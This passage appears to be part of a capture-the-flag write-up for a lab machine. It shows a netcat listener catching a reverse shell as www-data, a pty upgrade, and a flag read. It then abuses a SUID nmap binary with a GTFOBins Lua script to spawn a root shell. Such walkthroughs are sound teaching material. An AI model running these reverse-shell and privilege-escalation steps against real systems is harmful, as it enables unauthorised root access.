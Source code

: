 Listener:
```
┌[~]
└⇾ root $ nc -lvp 8081
listening on [any] 8081 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.101] 59178
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We get the next flag from a file in a directory one up from our pwd
```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@debian-9:/home/git/repositories$ cd ../
cd ../
www-data@debian-9:/home/git$ ls -al
ls -al
total 16
drwxr-xr-x 3 www-data www-data 4096 Apr 13 14:43 .
drwxr-xr-x 5 root     root     4096 Apr 13 14:43 ..
-rwxr-x--- 1 www-data root       15 Apr 13 14:43 earum.xlsx
drwxr-xr-x 3 www-data root     4096 Apr 13 14:43 repositories
www-data@debian-9:/home/git$ cat earum.xlsx
cat earum.xlsx
flag{cf6f9a63}
www-data@debian-9:/home/git$
```

The last flag is in /root/ so we need to escalate to get it. After running linuxprivescchecker on the machine I saw that the suid bit on nmap was set:

`-rwsr-xr-x 1 root root 2838168 Dec 22  2016 /usr/bin/nmap`

Normally, we'd be able to use the --interactive flag on nmap to drop into a shell with root privs, but this is nmap 7.4, so you'll  see the following if you try:
```
www-data@debian-9:/home/git/repositories/secret_files$ nmap --interactive
nmap --interactive
nmap: unrecognized option '--interactive'
See the output of nmap -h for a summary of options.
```

However, nmap can run user scripts, so it's possible to use nmap to execute commands, and because of the SUID bit, as a privileged user. We can use the following nmap privesc (https://gtfobins.github.io/gtfobins/nmap/)
```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

cat /root/dolor.wav
flag{hisserMacassaresecyclospermousanthomaniacoutgrosses}
```
